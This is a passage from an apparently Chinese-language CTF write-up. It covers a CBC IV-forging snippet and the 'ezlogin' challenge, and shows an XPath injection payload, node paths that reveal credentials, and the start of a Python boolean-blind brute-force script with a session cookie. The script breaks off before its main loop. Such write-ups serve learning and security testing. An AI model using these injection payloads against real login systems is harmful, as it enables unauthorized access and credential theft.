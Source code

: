 核心代码是这个
```python
target='piapiapia'+chr(4)*4
if i < len(target):
        evil_IVList[i] = sourceStrList[i] ^ old_IVList[i] ^ ord(target[i])
    else:
        evil_IVList[i] = sourceStrList[i] ^ old_IVList[i] ^ 0x0B
```

最后拿到HelloWorld.class，把里面东西放到python里的bytearray得到flag。



## ezlogin

考点：
1. xpath注入
2. 简单的文件包含绕过

xpath注入和sql注入很像，就是语法有点区别，大家可以参考菜鸟的xpath教程，这里主要提一下，string这个函数能把节点也转为字符串，name能读出节点的名字。

xpath注入主要有两种，一种是普通的注入，另外一种是布尔注入。普通注入对标union注入，使用|来完成和union类似的功能，例如1%27]|/\*/\*|//\*[%27，可以枚举出节点中所有的内容，但这个题用不了。布尔注入对标布尔盲注。

fuzz后发现，成功会显示非法操作，失败是用户或者密码错误。
![image.png](https://i.loli.net/2020/04/23/f5zPNR9UWohvcl3.png)

依次探测/\* 根节点下属节点的数目，/\*[1]/\*，根目录下子节点的下属节点数目依次类推，最后发现
```xpath
string(/*[1]/*[1]/*[2]/*[3]) //密码，找根目录下第一个节点的第二项的第三个节点的值
```

```xpath
string(/*[1]/*[1]/*[2]/*[2]) //用户名
```

写脚本爆破

```python
import requests
import string
import time
import re
session = requests.session()
base_url = 'you_address'
success = '??'
payload = "' or substring({target},{index},1)='{char}' or '"

chars = string.ascii_letters+string.digits


def get_csrf():
    res = session.get(base_url, headers={'User-Agent': 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/31.0.1650.57 Safari/537.36',
                                         'Cookie': 'PHPSESSID=8ad6c1a25ba4ac37acaf92d08f6dc993'}).text
    return re.findall('<input.*value="(.*?)"./>', res)[0]


target = 'string(/*[1]/*[1]/*[2]/*[3])'
# username adm1n
# password cf7414b5bdb2e65ee43083f4ddbc4d9f
data = '<username>{username}</username><password>1</password><token>{token}</token>'

result = 'cf7414b5bdb2e65ee43'
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/31.0.1650.57 Safari/537.36',
           'Content-Type': 'application/xml',
           'Cookie': 'PHPSESSID=8ad6c1a25ba4ac37acaf92d08f6dc993'}
```